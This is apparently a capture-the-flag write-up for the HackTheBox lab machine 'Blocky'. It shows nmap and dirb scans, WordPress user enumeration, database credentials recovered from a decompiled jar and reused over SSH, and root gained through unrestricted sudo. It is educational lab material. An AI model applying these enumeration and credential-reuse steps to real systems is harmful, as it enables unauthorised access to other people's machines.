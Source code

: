 ![image](https://user-images.githubusercontent.com/105310322/187503223-277a4fc5-0ee2-446d-ac4b-d18e9dd8ca8f.png)

### Tools: nmap, dirb, jd-gui

### Vulnerabilities: wordpress, php, credentials


Starting off we have a few open ports. I first tested the ftp login for anonymous but that didn't work. So I tried accessing the website but kept getting issues.

```console
└──╼ [★]$ sudo nmap -sC -sV -A 10.129.67.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 17:57 BST
Nmap scan report for 10.129.67.120
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp?
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.16 (93%), Linux 4.2 (93%), Linux 4.4 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.18 (90%), Linux 3.2 - 3.8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   17.78 ms 10.10.14.1
2   16.72 ms 10.129.67.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.66 seconds
```

A quick change to my hosts table will fix the redirect and allow us to access the site.

```console
└──╼ [★]$ sudo vim /etc/hosts
```
Add the following to the last line in the file.

```console
10.129.67.120 blocky.htb
```
We have a couple of links on the site including one for a login.

![image](https://user-images.githubusercontent.com/105310322/186245120-6ea699e9-7c27-4529-a551-060309b9656b.png)

![image](https://user-images.githubusercontent.com/105310322/186247909-49521513-6f0b-4ea2-b9c4-31a88c92ef57.png)



Since the login page is running wordpress we can do some enumeration. After running it we find 1 user "Notch". I thought maybe the user had a weak password so I tried a little of that and even tried the lost password section to see if I could capture something there. No luck. So lets see if dirb finds anything else.

```console
└──╼ [★]$ nmap -v --script http-wordpress* blocky.htb -p 80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 19:31 BST
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:31
Completed NSE at 19:31, 0.00s elapsed
Initiating Ping Scan at 19:31
Scanning blocky.htb (10.129.67.120) [2 ports]
Completed Ping Scan at 19:31, 0.02s elapsed (1 total hosts)
Initiating Connect Scan at 19:31
Scanning blocky.htb (10.129.67.120) [1 port]
Discovered open port 80/tcp on 10.129.67.120
Completed Connect Scan at 19:31, 0.00s elapsed (1 total ports)
NSE: Script scanning 10.129.67.120.
Initiating NSE at 19:31
Completed NSE at 19:31, 8.24s elapsed
Nmap scan report for blocky.htb (10.129.67.120)
Host is up (0.018s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-users: 
| Username found: notch
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet 3.3.2
|   themes
|     twentyfifteen 1.8
|     twentysixteen 1.3
|_    twentyseventeen 1.3
```


The dirb reveals alot of info. With most of them not meaning much I finally got some headway in the /plugins section of the site that led to 2 jar files.

```console
└──╼ [★]$ dirb http://blocky.htb /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 23 19:48:05 2022
URL_BASE: http://blocky.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://blocky.htb/ ----
==> DIRECTORY: http://blocky.htb/javascript/                                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/                                   
==> DIRECTORY: http://blocky.htb/plugins/                                      
+ http://blocky.htb/server-status (CODE:403|SIZE:298)                          
==> DIRECTORY: http://blocky.htb/wiki/                                         
==> DIRECTORY: http://blocky.htb/wp-admin/                                     
==> DIRECTORY: http://blocky.htb/wp-content/                                   
==> DIRECTORY: http://blocky.htb/wp-includes/                                  
                                                                               
---- Entering directory: http://blocky.htb/javascript/ ----
==> DIRECTORY: http://blocky.htb/javascript/jquery/                            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/                               
+ http://blocky.htb/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)               
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/                                
+ http://blocky.htb/phpmyadmin/libraries (CODE:403|SIZE:305)                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/locale/                            
+ http://blocky.htb/phpmyadmin/setup (CODE:401|SIZE:457)                       
==> DIRECTORY: http://blocky.htb/phpmyadmin/sql/                               
==> DIRECTORY: http://blocky.htb/phpmyadmin/templates/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/themes/                            
                                                                               
---- Entering directory: http://blocky.htb/plugins/ ----
==> DIRECTORY: http://blocky.htb/plugins/assets/                               
==> DIRECTORY: http://blocky.htb/plugins/files/                                
                                                                               
---- Entering directory: http://blocky.htb/wiki/ ----
                                                                               
---- Entering directory: http://blocky.htb/wp-admin/ ----
==> DIRECTORY: http://blocky.htb/wp-admin/css/                                 
==> DIRECTORY: http://blocky.htb/wp-admin/images/                              
==> DIRECTORY: http://blocky.htb/wp-admin/includes/                            
==> DIRECTORY: http://blocky.htb/wp-admin/js/                                  
==> DIRECTORY: http://blocky.htb/wp-admin/maint/                               
==> DIRECTORY: http://blocky.htb/wp-admin/network/                             
==> DIRECTORY: http://blocky.htb/wp-admin/user/                                
                                                                               
---- Entering directory: http://blocky.htb/wp-content/ ----
==> DIRECTORY: http://blocky.htb/wp-content/plugins/                           
==> DIRECTORY: http://blocky.htb/wp-content/themes/                            
==> DIRECTORY: http://blocky.htb/wp-content/uploads/                           
                                                                               
---- Entering directory: http://blocky.htb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://blocky.htb/javascript/jquery/ ----
+ http://blocky.htb/javascript/jquery/jquery (CODE:200|SIZE:284394)            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/doc/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/html/                          
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/js/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/jquery/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/pmd/                            
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/transformations/                
                                                                      
```  

Using ```jd-gui``` from the terminal will open the program and we can open blockycore.jar.
It is a small file that reveals a sqlpass and sqluser.

![image](https://user-images.githubusercontent.com/105310322/186242875-61349b7a-819b-4972-958f-88b233bcfbff.png)


Since there was an ssh port open we can try that first. Root doesnt work so I try notch instead and we get in and can cat that sweet sweet user flag.

```console
└──╼ [★]$ ssh notch@blocky.htb
The authenticity of host 'blocky.htb (10.129.67.120)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blocky.htb,10.129.67.120' (ECDSA) to the list of known hosts.
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
0f10d****************************
notch@Blocky:~$ 
```
Whenever I get into a machine as a user I always like to check my sudo permissions. This 1 was a suprise since it can run everything as sudo. 1st time for everything on HTB.

By running an easy sudo /bin/bash we quickly become root and cat the root flag!

```console
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# 
```
```console
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
46ea****************************
root@Blocky:/root# 
```

GG!
